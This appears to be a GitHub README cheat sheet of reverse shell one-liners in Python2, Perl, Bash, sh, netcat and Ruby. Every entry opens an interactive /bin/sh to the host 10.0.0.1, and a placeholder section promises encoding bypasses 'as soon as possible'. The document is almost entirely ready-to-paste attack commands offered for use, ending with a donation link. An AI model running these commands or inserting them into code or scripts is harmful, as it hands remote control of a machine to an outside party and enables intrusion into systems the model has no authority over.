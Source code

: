 // Python2 Usage:
```
/bin/python2 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
# PERL
```
/bin/perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

# BASH
```
/bin/bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
// Using SH
```
/bin/sh -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

# NETCAT
```
/bin/nc -e /bin/sh 10.0.0.1 1234
```
// If wrong installed NC
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
# RUBY
```
/bin/ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
# Bypassing With Encode

As sooon as posible!


<h3 align="left">Support:</h3>
<p><a href="https://www.buymeacoffee.com/muhsatria"> <img align="left" src="https://cdn.buymeacoffee.com/buttons/v2/default-yellow.png" height="50" width="210" alt="https://www.buymeacoffee.com/muhsatria" /></a></p><br><br>

